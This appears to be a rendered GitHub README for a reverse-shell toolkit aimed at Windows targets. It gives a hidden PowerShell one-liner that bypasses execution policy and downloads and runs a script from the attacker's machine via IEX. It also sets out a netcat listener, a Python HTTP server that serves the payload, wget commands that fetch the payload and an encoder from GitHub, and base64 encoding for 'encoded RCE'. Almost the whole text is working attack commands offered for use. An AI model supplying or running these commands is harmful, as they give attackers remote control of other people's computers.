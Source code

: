 ## **PowerShell Reverse Shell Command**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
```

### **Steps:**

1. **Set Up the Listener on Kali**  
    Run Netcat to listen for incoming connections:
    
    ```bash
    nc -lvnp <port>
    ```

   Replace `<port>` with the desired listening port.
2. **Prepare the Reverse Shell Script** Save the [PowerShell](https://github.com/MGamalCYSEC/ReverseShellCrafter/raw/refs/heads/main/PowerShell/reverse.rar) then Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
``` shell
wget https://github.com/MGamalCYSEC/ReverseShellCrafter/raw/refs/heads/main/PowerShell/reverse.rar
```

3. **Start a Simple HTTP Server on Kali**
   
    ```bash
    python3 -m http.server 80
    ```
    
    This will serve the `reverse.ps1` file over HTTP.
    
4. **Run the PowerShell Command on the Target Machine** Replace `<kali_ip>` in the command with your Kali machine's IP address:
    
    ```powershell
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command "IEX(New-Object Net.WebClient).DownloadString('http://<kali_ip>/reverse.ps1')"
    ```
    
   ---
## **Steps to Encode the Reverse Shell**
The [Python code](https://raw.githubusercontent.com/MGamalCYSEC/ReverseShellCrafter/refs/heads/main/PowerShell/encode.py) encodes the PowerShell reverse shell to base64 contained in the payload variable and then prints the result to standard output.
Download it 
``` shell
wget https://raw.githubusercontent.com/MGamalCYSEC/ReverseShellCrafter/refs/heads/main/PowerShell/encode.py
```

Replace `<kali_ip>` with your Kali machine's IP address and `<port>` with the same port you used for the listener.
We can run it and retrieve the output to use it as an encoded RCE

